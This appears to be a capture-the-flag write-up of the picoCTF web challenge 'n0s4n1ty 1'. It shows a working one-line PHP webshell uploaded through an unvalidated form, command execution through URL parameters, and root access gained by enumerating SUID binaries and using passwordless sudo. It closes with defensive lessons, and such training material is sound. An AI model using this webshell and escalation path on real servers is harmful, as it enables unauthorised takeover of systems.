 ```yaml
---

layout: post
title: "picoCTF - n0s4n1ty 1"
date: 2025-04-20
categories: [CTF, Web, picoCTF, File Upload, RCE]
-------------------------------------------------

## Overview

This picoCTF challenge presented a PHP-based web server with a file upload feature. I identified a lack of file validation, which allowed me to upload a malicious PHP webshell, gain Remote Code Execution (RCE), and eventually escalate privileges to capture the flag.

---
```


## Step 1: Initial Recon

The server allowed file uploads without strong validation. I suspected it lacked MIME type or file content checks.
![Initial Recon](/assets/img/picoctf/noinsanity1/img1.png)

I created a simple PHP webshell:

**shell.php**

```php
<?php system($_GET['cmd']); ?>
```

I uploaded the file successfully and accessed it at:

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php
```

---
![Shell Upload](/assets/img/picoctf/noinsanity1/img2.png)


## Step 2: Gaining Remote Code Execution

To verify code execution, I ran:

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php?cmd=ls+-al
```
![RCE Success](/assets/img/picoctf/noinsanity1/img3.png)

The output showed that commands were executed on the server under the `/uploads` directory as the `www-data` user.

---

## Step 3: Privilege Escalation

### 1. Search for SUID Binaries

I ran this to check which binaries run as their owner (usually root) regardless of who executes them:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Key result:

```
/usr/bin/sudo
```
![SUID Results](/assets/img/picoctf/noinsanity1/img4.png)


### 2. Check Sudo Permissions

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: ALL
```
![Sudo Permissions](/assets/img/picoctf/noinsanity1/img5.png)


This meant I could run **any command as root** with `sudo` and **no password required**.

### 3. Read the Flag

```bash
sudo cat /root/flag.txt
```

Flag obtained 🎯

```
picoCTF{example_flag_here}
```

---

## Conclusion

This challenge was a great example of a classic **file upload vulnerability** that led to full **server takeover**. Once RCE was achieved via a PHP shell, enumeration and misconfigured sudo permissions allowed for **easy privilege escalation**.



Lessons:

- Always validate uploaded file types and contents.
- Disable execution permissions in upload directories.
- Restrict `sudo` access tightly.

**Flag:** `picoCTF{picoCTF{example_flag_here}}`

